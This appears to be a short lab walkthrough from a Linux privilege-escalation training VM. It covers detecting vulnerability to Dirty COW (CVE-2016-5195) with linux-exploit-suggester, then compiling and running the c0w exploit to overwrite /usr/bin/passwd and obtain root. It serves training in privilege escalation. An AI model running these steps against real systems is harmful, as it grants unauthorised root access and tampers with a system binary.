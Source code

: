#Linux #PrivEsc #kernel #dirtycow #CVE-2016-5195 #gcc

[kernel-exploits](https://github.com/lucyoa/kernel-exploits)

# Detection  
Linux VM

1. In command prompt type:
	- `/home/user/tools/linux-exploit-suggester/linux-exploit-suggester.sh`
2. From the output, notice that the OS is vulnerable to [dirtycow](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails). #dirtycow

# Exploitation
Linux VM

1. In command prompt type:
	- `gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w`
1. In command prompt type: `./c0w`

**Disclaimer: This part takes 1-2 minutes - Please allow it some time to work.**

3. In command prompt type: `passwd`
4. In command prompt type: `id`

From here, either copy `/tmp/passwd` back to `/usr/bin/passwd` or reset your machine to undo changes made to the `passwd` binary
